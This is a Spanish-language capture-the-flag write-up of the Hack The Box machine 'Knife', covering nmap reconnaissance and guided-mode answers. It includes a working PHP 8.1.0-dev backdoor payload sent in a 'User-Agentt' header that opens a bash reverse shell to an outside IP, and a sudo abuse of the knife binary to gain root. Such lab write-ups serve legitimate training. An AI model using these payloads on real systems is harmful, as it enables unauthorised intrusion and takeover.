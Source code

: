 ```yaml
---
title: Writeup knife - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - knife
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina knife en Hack The Box.
keywords:
  - writeup knife
  - hack the box knife
  - resolución máquina knife
  - knife hack the box
  - htb knife
---
```

-------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Linux/Knife)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=0cqa33FLho0)
- 🧠 **Explicación resumida**: [Link](https://www.youtube.com/watch?v=tWrxfiQcZO4)

---------

#linux #easy #nmap #ping #whatweb #php810-dev  #burpsuite #reverseshell #sudo-l #tratamientotty #gtfobinds #abusobinarioknife

-------
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en Knife?
	2

2)¿Qué versión de PHP se está ejecutando en el servidor web?
	8.1.0-dev

3)¿Qué cabecera de petición HTTP se puede añadir para conseguir la ejecución de código en esta versión de PHP?
	User-Agentt

4)¿Con qué usuario se ejecuta el servidor web?
	james

*La pregunta anterior era la flag de user.txt*
6)¿Cuál es la ruta completa al binario en esta máquina que James puede ejecutar como root?
	/usr/bin/knife

------------------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.242
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.10.10.242 -oN target
```


![[Knife1.png]]
![[Knife2.png]]
*TTL:* Maquina linux
*Puertos:*
	`22`[[ssh]]
	`80`HTTP

------------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.242/
```

![[Knife3.png]]
Nos informa que la pagina tiene php 8.1.0

-----
# Intrusion vulnerabilidad [[PHP 8.1.0-dev]]

Interceptamos la peticion con [[burpsuite]]

![[Knife4.png]]
Ahora vamos a añadir la linea que es vulnerable de User-Agentt: y le vamos a inyectar el one liner que casi siempre usamos para la [[Reverse shell]] 
```
User-Agentt: zerodiumsystem('bash -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"');
```

Ahora mientras estamos en escucha con [[nc -nlvp 443]], mandamos la peticion
![[Knife5.png]]

Y listo ya estamos adentro de la maquina
![[Knife6.png]]

--------
# [[Tratamiento de la TTY]]

-----
# Escalada de privilegios con [[Abuso de Sudo]] al [[Binario knife]]

Usamos el comando `sudo -l`

![[Knife7.png]]
Y nos indica que james puede usar el binario knife, siendo root sin otorgar contraseña

Articulo de [gtfobinds](https://gtfobins.github.io/gtfobins/knife/#sudo) donde nos indica como meter un payload desde sudo para elevar privilegios, asi que lo adaptamos a nuestra maquina
![[Knife8.png]]
```shell
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```
Y listo ya ganamos acceso como root y podemos visualizar las flags

![[Knife10.png]]

-------
# Creditos

[Exploit 49933 de searchsploit](https://www.exploit-db.com/exploits/49933) Que lo pudimos usar de referencia para entender la vulnerabilidad



